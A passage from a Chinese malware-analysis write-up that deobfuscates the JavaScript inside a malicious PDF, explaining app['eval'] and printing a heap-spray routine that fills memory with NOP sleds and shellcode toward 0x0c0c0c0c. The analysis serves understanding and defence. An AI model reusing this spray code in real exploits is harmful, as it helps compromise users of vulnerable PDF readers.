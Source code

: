 ![enter image description here](http://drops.javaweb.org/uploads/images/d19d29f8487c54e7abb365edb74ec3725326955d.jpg)

还有一点是PDF中的JS并不是多“标准”，有个明显的特征是它的内容会经过一层编码，例如上图\全部被编码成了\，工具可以做简单清理，如上图所示。

其实清理之后，留下来了很多\”，虽然不会产生语法错误，不过看起来还是很别扭，也可以手动再把这些\都删掉。还有开头的例如(?function ...需要手动删除成(function ...。

清理完的代码见附件malicious_VI.rar 的 pdf.js.txt。

简单地阅读一下代码，虽说一眼就能看出来awn5fmmtY 这个变量就是Shellcode，和、至少是它的绝大部分，但是还是看一看吧：

![enter image description here](http://drops.javaweb.org/uploads/images/7cb450879d7a22f11a1d89400a0ea241870b114f.jpg)

一番阅读之后，可以发现这里使用了`app[’eval’](xxxx)`，正如你所见，不是他替换了什么东西，而是PDF中的eval函数实际上是属于app对象的，而不是window对象。具体可以参照参考资料[2](http://drops.wooyun.org/wp-content/uploads/2015/06/image0033.png)，Adobe的开发资料。

![enter image description here](http://drops.javaweb.org/uploads/images/5cc7365c51fa02d29b275b152a0fd64a3f039d32.jpg)

最终执行的就是这么一段

![enter image description here](http://drops.javaweb.org/uploads/images/4aa96f97442f1ed0a846ec93dc474dc33a0ae557.jpg)

为了不让图太大，我把字号缩小了，具体可参照附件。

这一段中，采用了`awn5fmmtY = unescape(awn5fmmtY.join(""));`的方式将这个Array输出成一个字符串。然后就是简单的堆喷过程，

![enter image description here](http://drops.javaweb.org/uploads/images/6d0e7aa71ee5e1012fab239d641a4dbb4a23715d.jpg)

我们手动改一下变量就能看的很清楚了：

```
var fK2iJohU = 0x400000;
var mTcRGdIAFp = awn5fmmtY.length * 2;
var kIkwRkWL = fK2iJohU - (mTcRGdIAFp + 0x38);
var sR4ZJ8w7ci = unescape("%u9090%u9090");
sR4ZJ8w7ci = xZltXdRrA(sR4ZJ8w7ci, kIkwRkWL);
var lFu82BhUm = (h8qcONPj - 0x400000) / fK2iJohU;
for(var ho7zfzSpA2 = 0; ho7zfzSpA2 < lFu82BhUm; ho7zfzSpA2++)
{
    rTq8VBM7[ho7zfzSpA2] = sR4ZJ8w7ci + awn5fmmtY;
}

```

改为方便人阅读的代码就是：

```
var  arr = new Array();
var  blockSize = 0x400000;
var  shellcodeSize = shellcode.length * 2;
var  spraySize =  blockSize - (shellcodeSize + 0x38);
var  nops = unescape("%u9090%u9090");
nops = extendStrForXXTimes(nops, spraySize);
var sprayTarget = 0x0c0c0c0c;
var  fillTimes = (sprayTarget - 0x400000) / blockSize;
for(var i = 0; i < fillTimes; i++)
{
  arr[i] = nops + shellcode;
}

```
